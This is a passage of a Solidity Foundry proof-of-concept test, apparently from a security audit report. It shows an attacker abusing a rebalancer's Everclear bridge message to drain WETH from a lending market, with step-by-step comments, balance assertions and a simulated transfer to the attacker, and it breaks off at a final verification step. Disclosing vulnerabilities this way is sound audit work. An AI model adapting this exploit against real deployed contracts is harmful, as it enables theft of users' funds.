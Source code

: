 ```solidity
        bytes memory maliciousIntent = _createMaliciousEverclearIntent(
            attacker, // ← MALICIOUS: Attacker's address as receiver
            address(weth), // input asset
            address(weth), // output asset
            THEFT_AMOUNT, // amount to steal
            DESTINATION_CHAIN_ID // destination chain
        );

        // Step 5: Execute malicious rebalancing
        IRebalancer.Msg memory maliciousMsg = IRebalancer.Msg({
            dstChainId: DESTINATION_CHAIN_ID,
            token: address(weth),
            message: maliciousIntent,
            bridgeData: ""
        });

        vm.prank(attacker);
        rebalancer.sendMsg(
            address(everclearBridge),
            address(mWethHost),
            THEFT_AMOUNT,
            maliciousMsg
        );

        console2.log("Malicious intent submitted to Everclear");

        // Step 6: Verify Phase 1 results
        uint256 marketBalanceAfter = weth.balanceOf(address(mWethHost));
        uint256 rebalancerBalanceAfter = weth.balanceOf(address(rebalancer));
        uint256 extractedAmount = marketBalanceBefore - marketBalanceAfter;

        console2.log("=== PHASE 1 RESULTS ===");
        console2.log("Market balance after:", marketBalanceAfter);
        console2.log("Rebalancer balance after:", rebalancerBalanceAfter);
        console2.log("Tokens extracted from protocol:", extractedAmount);
        console2.log("Intent receiver:", mockFeeAdapter.getLastReceiver());
        console2.log("");

        // Verify extraction worked
        assertEq(
            extractedAmount,
            THEFT_AMOUNT,
            "Tokens not extracted from market"
        );
        assertEq(
            rebalancerBalanceAfter - rebalancerBalanceBefore,
            THEFT_AMOUNT,
            "Rebalancer doesn't have tokens"
        );

        console2.log("=== PHASE 2: CROSS-CHAIN FULFILLMENT SIMULATION ===");
        console2.log(
            "Simulating Everclear protocol fulfilling intent on destination chain..."
        );

        // Step 7: Simulate cross-chain fulfillment by transferring to attacker
        // In reality, this would happen on Arbitrum when Everclear processes the intent
        vm.prank(address(rebalancer));
        weth.transfer(attacker, THEFT_AMOUNT);

        console2.log("Cross-chain fulfillment simulated");

        // Step 8: Verify complete theft
```